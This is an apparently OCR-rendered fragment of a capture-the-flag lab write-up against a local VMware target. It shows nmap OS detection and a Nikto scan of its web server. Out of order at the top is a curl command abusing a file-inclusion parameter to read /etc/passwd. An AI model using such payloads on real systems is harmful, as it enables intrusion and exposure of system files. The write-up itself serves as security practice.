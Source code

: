 ```curl http://192.168.20.149/image.php?secrettier360=/etc/passwd```

MAC Address: 00:0C:29:2C:25:11 (VMware)

Warning: OSScan results may be unreliable because we could not find at least 1
open and 1 closed port

Device type: general purpose

Running: Linux 3.X\|4.X

OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4

OS details: Linux 3.2 - 4.9

Network Distance: 1 hop

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE

HOP RTT ADDRESS

1 0.68 ms 192.168.20.149

Web Port Enumeration (Port 80)
------------------------------

### Nikto

root\@kali:\~\# nikto -h 192.168.20.149

\- Nikto v2.1.6

\---------------------------------------------------------------------------

\+ Target IP: 192.168.20.149

\+ Target Hostname: 192.168.20.149

\+ Target Port: 80

\+ Start Time: 2019-09-09 10:42:44 (GMT-4)

\---------------------------------------------------------------------------

\+ Server: Apache/2.4.18 (Ubuntu)

\+ The anti-clickjacking X-Frame-Options header is not present.

\+ The X-XSS-Protection header is not defined. This header can hint to the user
agent to protect against some forms of XSS

\+ The X-Content-Type-Options header is not set. This could allow the user agent
to render the content of the site in a different fashion to the MIME type

\+ No CGI Directories found (use '-C all' to force check all possible dirs)

\+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37).
Apache 2.2.34 is the EOL for the 2.x branch.

\+ Web Server returns a valid response with junk HTTP methods, this may cause
false positives.

```